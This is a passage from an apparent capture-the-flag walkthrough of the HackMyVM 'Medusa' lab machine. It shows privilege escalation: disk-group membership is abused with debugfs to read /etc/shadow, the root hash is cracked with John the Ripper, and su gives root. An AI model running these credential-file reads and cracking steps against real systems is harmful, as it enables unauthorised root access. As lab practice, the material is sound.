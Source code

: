 Now that we have logged in, we can continue our enumeration process on the target. A quick way to escalate privileges is to leverage group membership. A quick look at Spectre's group membership shows that spectre is a member of the disk group. The disk group gives the user access to any block devices contained within /dev/. We can leverage this to access the root file system and read the /etc/shadow file to crack the root's password.
```bash
spectre@medusa:~$ id
uid=1000(spectre) gid=1000(spectre) groups=1000(spectre),6(disk),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
spectre@medusa:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            471M     0  471M   0% /dev
tmpfs            98M  508K   98M   1% /run
/dev/sda1       6.9G  6.5G     0 100% /
tmpfs           489M     0  489M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs            98M     0   98M   0% /run/user/1000
spectre@medusa:~$ /usr/sbin/debugfs /dev/sda1                            
debugfs 1.46.2 (28-Feb-2021)                                              
debugfs:  mkdir test              
mkdir: Filesystem opened read/only                                               
debugfs:  cat /etc/shadow                  
root:$y$j9T$AjVXCCcjJ6jTodR8BwlPf.$4NeBwxOq4X0/0nCh3nrIBmwEEHJ6/kDU45031VFCWc2:19375:0:99999:7:::                
<SNIP>

spectre:$y$j9T$4TeFHbjRqRC9royagYTTJ/$KnU7QK1u0/5fpHHqE/ehPe6uqpwbs6vuvcQQH4EF9ZB:19374:0:99999:7:::
systemd-coredump:!*:19372::::::
ftp:*:19372:0:99999:7:::
debugfs: q
spectre@medusa:~$
```
Next, we can copy the root's password hash and attempt to crack it using john.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Medusa/Misc Files]
└─$echo '$y$j9T$AjVXCCcjJ6jTodR8BwlPf.$4NeBwxOq4X0/0nCh3nrIBmwEEHJ6/kDU45031VFCWc2' > root.hash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$john root.hash -wordlist:/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [0:unknown 1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt 7:scrypt 10:yescrypt 11:gost-yescrypt]) is 10 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
andromeda        (?)     
1g 0:00:00:19 DONE (2024-09-12 20:38) 0.05023g/s 188.0p/s 188.0c/s 188.0C/s 19871987..street
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
From the result above, we successfully cracked the root's hash. We can use this password to log in as the root user and read the root flag.
```bash
spectre@medusa:~$ su root
Password: 
root@medusa:/home/spectre# ls -la /root
total 28
drwx------  3 root root 4096 Jan 30  2023 .
drwxr-xr-x 19 root root 4096 Jan 15  2023 ..
lrwxrwxrwx  1 root root    9 Jan 15  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 Jan 17  2023 .bashrc
drwxr-xr-x  3 root root 4096 Jan 15  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   53 Jan 18  2023 .rO0t.txt
```